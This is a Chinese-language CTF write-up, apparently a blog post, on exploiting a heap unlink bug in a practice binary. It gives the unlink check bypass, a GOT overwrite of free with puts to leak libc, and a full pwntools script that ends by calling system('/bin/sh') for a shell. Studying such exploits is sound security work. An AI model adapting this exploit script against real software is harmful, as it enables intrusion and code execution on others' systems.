 ```yaml
---
title: heap unlink
date: 2018-08-06
tag: pwn
layout: post
---
```

[bin](https://github.com/void0red/code/blob/master/task/2018_07_30/first)地址

## 0x00问题所在

1. free后的堆指针没用置空
2. free没有对flag进行判断是否已经free过了

## 0x01unlink

- 发生在free一个chunk，发现相邻的chunk处于free状态，从bin双链表取出来的时候，合并至少两个free chunk。前一个chunk的状态通过`p->presize`的最低位来判断，后一个chunk的状态通过`(p+p->size+(p+size)->size)->presize`的最低位来判断。

- unlink的检查：

  - `p->fd->bk == p && p->bk->fd == p` 

    绕过：寻找`*ptr == p`

  - `((p+p->size)->presize)&0x1 == 0 && ((p+p->size)->preseize) == p->size`

    绕过：覆盖nextchunk的presize

- unlink

  ```c
  //定义:
  FD = p->fd;
  BK = p->bk;
  FD->bk = BK;
  BK->fd = FD;
  //方法：
  p->fd = ptr-0x8*3;
  p->bk = ptr-0x8*2;
  //效果：
  *ptr = p->fd;
  //*ptr = ptr-0x8*3
  ```

## 0x02分析

- 堆指针依次保存在`0x6020e0` 中，记为`list`

  ```c
  unsigned long int list;
  list[i*2] = chunkp;
  list[i*2+1] = flag;
  ```


- 利用`unlink`篡改堆指针，因为构造一次`unlink`只能修改`ptr`处的值，而且`ptr`必需保存`unlink`对象堆的指针，所以尽量把他修改为保存堆指针`list`中的某处地址，然后伪造list中的数据，再利用edit，修改list中伪造地址的数据

- 构造`unlink`的`fd, bk`，要使`ptr-0x8*3`落在`list`地址的范围，同时`ptr`还要保存`unlink`对象堆地址，也就是list[i*2]，取`ptr == list+0x18+0x8 == list[4]`，即`unlink(chunk2)`，配合`unlink`还需要一个相邻的堆，所以考虑先获得两个堆的指针。

## 0x03利用


- 首先申请两个0x100的堆再释放，目的是保存两个堆的指针，接着申请0x100*2+0x10(chunk header size)的堆，这个堆应该填充在先前释放的两个堆的位置。

  ![](https://raw.githubusercontent.com/void0red/Pictures/master/blog/unlink0.png)

- 然后free后面一个实际上不存在，但是有个残留指针的堆，触发前一个堆的`unlink`， 导致`*ptr == list[4]`修改为`ptr-0x8*3 == list+0x18+0x8-0x8*3 == list[1]`即chunk1的flag处。

- 利用edit(chunk2)修改`list`的数据，从chunk1的flag处开始，修改`list[2] = free@got; list[4] = read@got`

- 利用edit(chunk1)修改`free`函数地址为`puts`函数地址，然后free(chunk2)就会打印`read`函数的地址

- 利用动态链接库计算`system`函数的地址，并用edit(chunk1)修改`free(puts)`函数地址为`puts`函数地址

- 任意申请一个堆存入`/bin/sh\x00`，调用free即触发`system`

##  0x04code

```python
# use to save two pointers in list, not fastbin
create(2, 0x100, 'a')
create(1, 0x100, 'a')

delete(2)
delete(1)

list_addr = 0x6020e0

# p_addr also set to list[4](save index2's pointer)
p_addr = list_addr + 0x18 + 0x8
# size = 0x100+0x100+0x10(chunk1 header)
# fake data(low addr --> high addr): chunk0p->(presize, size&inuse, fd, bk, data), chunk1p->(presize, size&inuse)
# keep: [1]p->fd->bk == p->bk->fd == p, [2]p->size == (p+size)->presize
create(2, 0x210, p64(0)+p64(0x101)+p64(p_addr-0x18)+p64(p_addr-0x10)+'a'*(0x100-0x20)+p64(0x100)+p64(0x210-0x100))

# when free chunk1, inuse bit is `0`, than unlink chunk0, p->fd->bk = p->bk, p->bk->fd = p->fd
# *p_addr = p->fd = p_addr-0x18 = list_addr+0x8
delete(1)

# fake data: index0_flag, index1p, index1_flag, index2p, index2_flag
edit(2, p64(0)+p64(elf.got['free'])+p64(1)+p64(elf.got['read'])+p64(1))


# change free to puts
edit(1, p64(elf.symbols['puts']))

# puts(&list[4]) == puts(free@got)
delete(2)

read_addr = u64(p.recv(6) + '\x00'*2)
system_addr = libc.symbols['system'] - libc.symbols['read'] + read_addr

# change puts to system
edit(1, p64(system_addr))

create(3, 0x20, '/bin/sh')

# system('/bin/sh')
delete(3)
p.interactive()
```

